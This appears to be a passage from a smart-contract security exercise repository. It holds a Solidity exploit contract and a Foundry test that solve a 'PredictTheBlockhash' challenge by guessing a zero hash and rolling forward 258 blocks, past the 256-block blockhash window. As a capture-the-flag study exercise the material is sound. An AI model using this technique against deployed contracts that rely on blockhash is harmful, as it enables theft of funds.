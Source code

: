 ```
            require(ok, "Transfer to msg.sender failed");
        }
    }
}

// Write your exploit contract below
contract ExploitContract {
    PredictTheBlockhash public predictTheBlockhash;

    constructor(PredictTheBlockhash _predictTheBlockhash) {
        predictTheBlockhash = _predictTheBlockhash;
    }

    receive() external payable {}

    function lockInGuess() public payable {
        bytes32 _hash = blockhash(0);
        predictTheBlockhash.lockInGuess{value: 1 ether}(_hash);
    }

    function attack() public {
        predictTheBlockhash.settle();
    }
}
```
- `test/Week8-9/PredictTheBlockhash.t.sol`
```
contract PredictTheBlockhashTest is Test {
    PredictTheBlockhash public predictTheBlockhash;
    ExploitContract public exploitContract;

    function setUp() public {
        // Deploy contracts
        predictTheBlockhash = (new PredictTheBlockhash){value: 1 ether}();
        exploitContract = new ExploitContract(predictTheBlockhash);
    }

    function testExploit() public {
        // Set block number
        uint256 blockNumber = block.number;
        // To roll forward, add the number of blocks to blockNumber,
        // Eg. roll forward 10 blocks: blockNumber + 10
        console2.log(blockNumber);
        // Put your solution here
        exploitContract.lockInGuess{value: 1 ether}();
        vm.roll(blockNumber + 258);
        exploitContract.attack();

        _checkSolved();
    }

    function _checkSolved() internal {
        assertTrue(predictTheBlockhash.isComplete(), "Challenge Incomplete");
    }

    receive() external payable {}
}
```
### Exploit